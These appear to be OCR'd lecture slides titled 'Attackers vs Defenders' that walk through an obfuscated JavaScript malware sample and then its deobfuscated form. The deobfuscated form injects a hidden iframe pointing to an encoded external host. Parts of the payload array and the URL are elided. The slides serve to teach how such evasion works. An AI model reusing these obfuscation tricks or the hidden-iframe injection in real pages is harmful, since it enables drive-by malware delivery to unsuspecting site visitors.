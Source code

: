 
### Attackers vs Defenders

An example of obfuscation and evasion (2/4)

    [lang=Javascript]
    b=new function(){return 2;};

    if(!+b)
        String.prototype.vqwfbeweb='h'+'arC';

    for(i in $='b4h3tbn34')
        if(i=='vqwfbeweb')
            m=$[i];

    try{
        new Object().wehweh();}
    catch(q){
        ss="";}

    try{
        window['e'+'v'+'al']('asdas')}
    catch(q){
        s=String["fr"+"omC"+m+"od"+'e'];}

---

### Attackers vs Defenders

An example of obfuscation and evasion (3/4)

    [lang=Javascript]
    d=new Date();
    d2=new Date(d.valueOf()-2);
    Object.prototype.asd='e';

    if({}.asd==='e')
        a=document["c"+"r"+"e"+"a"+"t"+"e"+"T"+"e"+"x"+"t"+"N"+"o"+"d"+"e"]('321');

    if(a.data==321)
        h=-1*(d-d2);

    n=[-h+7,-h+7, ... ,-h+7,-h+7,-h+123];

    for(i=0;i<n.length;i++)
        ss+=s(eval("n"+"[i"+"]"));

    if(!+b)eval(ss);

---

### Attackers vs Defenders

An example of obfuscation and evasion (4/4)

    [lang=Javascript]
    /* Deobfuscated version */
    if (document.getElementsByTagName('body')[0]){
     iframer();
    }else{
     document.write("<iframe src='http://%71%65%72 ... %66%2E%6D%73
      /main.php?page=b5a87c34230be775' width='10' height='10' 
      style='visibility:hidden;position:absolute;left:0;top:0;'></iframe>");		
    } 
    function iframer(){
     var f = document.createElement('iframe');
     f.setAttribute('src','http://%71%65%72...%2E%6D%73
      /main.php?page=b5a87c34230be775'); 
     f.style.visibility='hidden';f.style.position='absolute';
     f.style.left='0';f.style.top='0';f.setAttribute('width','10');